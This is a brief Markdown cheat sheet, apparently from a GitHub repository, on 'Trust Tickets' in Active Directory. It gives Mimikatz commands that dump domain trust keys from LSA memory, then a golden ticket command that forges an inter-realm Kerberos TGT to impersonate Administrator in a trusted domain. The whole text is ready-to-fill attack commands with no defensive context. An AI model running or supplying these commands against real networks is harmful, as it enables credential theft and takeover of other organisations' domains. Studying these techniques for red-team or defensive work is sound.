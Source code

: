# Trust Tickets

### Dump Trust Key using MimiKatz

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

### Forge an inter-realm TGT using the Golden Ticket attack

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"
```

